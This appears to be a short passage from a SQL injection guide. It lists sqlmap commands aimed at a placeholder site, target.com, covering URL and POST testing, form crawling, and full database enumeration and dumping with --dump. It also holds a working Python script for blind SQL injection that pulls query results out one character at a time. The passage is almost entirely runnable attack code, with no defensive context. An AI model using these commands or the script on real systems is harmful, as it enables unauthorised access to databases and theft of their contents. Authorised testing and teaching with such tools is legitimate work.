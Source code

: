 ## Automated Testing Tools

### SQLMap

The most popular automated SQL injection tool.

```bash
# Basic usage
sqlmap -u "http://target.com/page.php?id=1"

# POST data testing
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test"

# Advanced options
sqlmap -u "target.com" --forms --crawl=2 --random-agent --batch

# Database enumeration
sqlmap -u "target.com" --dbs --tables --columns --dump
```

### Custom Python Scripts

```python
import requests
import string
import time

def blind_sqli_extract(url, injection_point, database_query):
    extracted_data = ""
    position = 1
    
    while True:
        found = False
        for char in string.ascii_lowercase + string.digits + '_':
            payload = f"' AND (SELECT SUBSTRING(({database_query}),{position},1))='{char}'--"
            
            response = requests.get(url, params={injection_point: payload})
            
            if "welcome" in response.text.lower():  # Adjust based on app behavior
                extracted_data += char
                found = True
                break
        
        if not found:
            break
        position += 1
    
    return extracted_data

# Usage
result = blind_sqli_extract(
    "http://target.com/search.php",
    "search",
    "SELECT database()"
)
```
